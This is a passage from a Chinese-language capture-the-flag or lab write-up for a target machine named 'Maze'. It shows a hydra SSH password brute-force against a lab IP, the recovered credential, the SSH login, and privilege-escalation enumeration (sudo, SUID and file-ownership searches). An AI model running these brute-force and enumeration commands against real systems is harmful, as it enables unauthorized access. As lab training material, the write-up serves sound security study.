```
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ hydra -l bamuwe -P xato-net-10-million-passwords.txt ssh://192.168.205.158 -f -I -u -e nsr -t 64
...
[22][ssh] host: 192.168.205.158   login: bamuwe   password: hahaha
[STATUS] attack finished for 192.168.205.158 (valid pair found)
...
```

成功破解密码：`bamuwe:hahaha`

# 四、初始访问

## SSH登录

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ssh bamuwe@192.168.205.158
bamuwe@192.168.205.158's password: 
...
bamuwe@Maze:~$ 
```

成功获取shell访问权限。

## 权限枚举

### 基础信息收集

```bash
bamuwe@Maze:~$ id
uid=1005(bamuwe) gid=1005(bamuwe) groups=1005(bamuwe)

bamuwe@Maze:~$ sudo -l
...
Sorry, user bamuwe may not run sudo on Maze.
```

用户无sudo权限。

### SUID程序检查

```bash
bamuwe@Maze:~$ find / -perm -4000 -type f -exec ls -l {} \; 2>/dev/null
...
```

未发现可利用的SUID程序。

### 用户文件权限

```bash
bamuwe@Maze:~$ find / -user $(whoami) ! -path '/proc/*' ! -path '/sys/*' ! -path '/run/*' 2>/dev/null
...
/etc/modprobe.d
/etc/modprobe.d/pwn.conf
/etc/modprobe.d/get_root.conf
```
